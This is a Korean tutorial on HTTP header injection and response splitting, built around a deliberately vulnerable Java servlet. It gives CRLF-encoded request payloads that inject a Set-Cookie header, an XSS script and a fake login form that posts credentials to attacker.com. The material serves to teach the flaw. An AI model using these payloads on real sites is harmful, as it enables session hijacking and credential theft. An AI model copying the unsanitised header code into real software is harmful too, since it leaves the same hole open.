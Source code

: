다음 코드는 `user` 파라미터를 그대로 HTTP 응답 헤더에 설정하고 있습니다. 만약 공격자가 `user` 파라미터에 악의적인 값을 삽입하면 `헤더 인젝션`이 발생할 수 있습니다.
```java
public class HeaderInjectionServlet extends HttpServlet {
    protected void doGet(HttpServletRequest request, HttpServletResponse response)
            throws ServletException, IOException {
        String user = request.getParameter("user");
        response.setHeader("X-User", user);
        response.getWriter().println("Header set with user: " + user);
    }
}

```

헤더에 임의의 값이 들어가면 어떤 문제가 일어날까요?

### HTTP 응답 분할
> 입력된 데이터가 HTTP 응답 헤더에 포함되어 응답이 두 개의 분리된 HTTP 응답으로 처리되도록 유도하는 방법

- 브라우저가 두 개의 응답으로 해석할 수 있으며, 이는 브라우저의 동작을 제어할 수 있게 만듭니다.

예를 들어 다음과 같은 요청을 보냈다고 해보겠습니다.
```http
GET /someEndpoint HTTP/1.1 
Host: example.com 
X-User: attacker%0d%0aSet-Cookie:%20sessionId=malicious
```
- %0d%0a는 URL 인코딩에서 각각 캐리지 리턴(CR)과 라인 피드(LF) 문자를 나타내며 CRLF는 헤더의 끝을 나타낸다. 즉, 서버 응답을 두 개의 분리된 응답으로 만들 수 있습니다.
- 응답이 분할되면 브라우저는 첫 번째 응답을 처리하고, 이후에 두 번째 응답을 별도 처리합니다.

< 첫 번째 응답 > 
```http
HTTP/1.1 200 OK 
X-User: attacker
```

< 두 번째 응답 >
```http
Set-Cookie: sessionId=malicious
Content-Type: text/html;charset=UTF-8

Header set with user: attacker
```

두 번째 응답에 악성 콘텐츠를 삽입하여 XSS 공격을 수행할 수 있습니다.
```http
Injected-Header: InjectedValue 
Content-Type: text/html;charset=UTF-8 

<script>alert('XSS');</script>
```

또는 개행 문자 두 개를 나란히 보냄으로써 헤더와 바디를 나누는 빈 행을 만들어 내고 가짜 웹 페이지를 보여줄 수 있습니다.
~~~http
GET /vulnerableServlet HTTP/1.1
Host: example.com
X-User: legitimateUser%0d%0aContent-Length: 0%0d%0a%0d%0aHTTP/1.1 200 OK%0d%0aContent-Type: text/html%0d%0a%0d%0a<html><body><h1>Login</h1><form method='POST' action='http://attacker.com/log'>Username: <input type='text' name='username'><br>Password: <input type='password' name='password'><br><input type='submit' value='Login'></form></body></html>

~~~
